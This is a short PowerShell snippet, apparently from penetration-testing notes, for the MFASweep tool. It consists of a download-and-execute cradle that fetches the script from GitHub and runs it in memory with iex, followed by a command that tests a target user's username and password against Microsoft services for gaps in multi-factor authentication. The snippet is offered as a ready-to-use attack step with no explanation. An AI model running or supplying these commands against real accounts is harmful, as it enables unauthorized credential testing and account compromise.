 # [MFASweep](https://github.com/dafthack/MFASweep)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://github.com/dafthack/MFASweep/blob/master/MFASweep.ps1?raw=true')
Invoke-MFASweep -Username <targetuser@targetdomain.com> -Password <password> -Recon -IncludeADFS
```
